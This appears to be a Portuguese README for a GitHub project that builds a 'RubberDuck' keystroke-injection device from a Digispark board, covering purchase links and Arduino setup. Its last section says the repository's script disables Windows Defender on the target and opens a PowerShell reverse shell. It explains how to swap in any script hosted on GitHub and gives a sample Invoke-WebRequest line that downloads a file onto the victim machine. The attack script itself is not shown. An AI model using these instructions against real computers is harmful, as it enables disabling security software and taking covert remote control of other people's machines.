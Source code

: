 # RubberDuck_Digispark

### Onde comprar: 
#### "DigisPark"
    https://pt.aliexpress.com/item/2040316211.html?src=google&aff_fcid=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&aff_fsk=UneMJZVf&aff_platform=aaf&sk=UneMJZVf&aff_trace_key=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&terminal_id=8aa35bb270a04908bf8a5a0994450a81

### Configurar o RubberDuck:
Baixe a IDE do Arduino aqui:
    https://www.arduino.cc/en/software

Baixe e Instale os Drivers do Digispark aqui:
    https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

(role a pagina para baixo e baixe o Arduino Legacy IDE (1.8.X) (é uma versão com menos BUGs))

Após instalar e abrir o Arduino, aperte o Ctrl+Virgula que abrirá as preferencias. Após isso, na parte de "URLs Adicionais para Gerenciadores de Placas", você cole isso:
#### Url de Configuração do Digispark:
    https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
![alt text](<img/Screenshot_1.png>)


Após isso, faça esse caminho: Ferramenta > Placa > Gerenciador de Placas.
Será mostrado a tela de "Gerenciador de Placas". Dentro dessa tela, você irá pesquisar "DigisPark" e instalar a unica opção que aparece:
![alt text](<img/Screenshot_2.png>)


Após a instalação da placa, faça esse caminho e selecione ela para começar a codar:
![alt text](<img/Screenshot_3.png>)


Após tudo isso, sempre coloque esses dois include no começo do seu script:
![alt text](<img/Screenshot_4.png>)



### Baixe o DigiKeyboardPtBr aqui:
    https://github.com/cosmosredshiftsete/RubberDuck_Digispark/blob/main/DigiKeyboardPtBr.h
(caso você baixe o repositório, ele ja virá.)



### Sobre o Script:
Esse script do repositório faz o RubberDuck desativar o windows defender da maquina e executar uma Reverse Shell via Powershell.
Recomendo você seguir a mesma logíca do script do RubberDuck. Caso queira subir um script diferente na maquina, você deve subir um repositório no GitHub com seu script, colocar o link do seu repoitório na linha 49, que ele irá executar seu script baixando via powershell.
#### Exemplo:
          DigiKeyboardPtBr.println("Invoke-WebRequest -Uri 'link do seu repositório aqui' -OutFile 'nome_arquivo.aqui'");
        
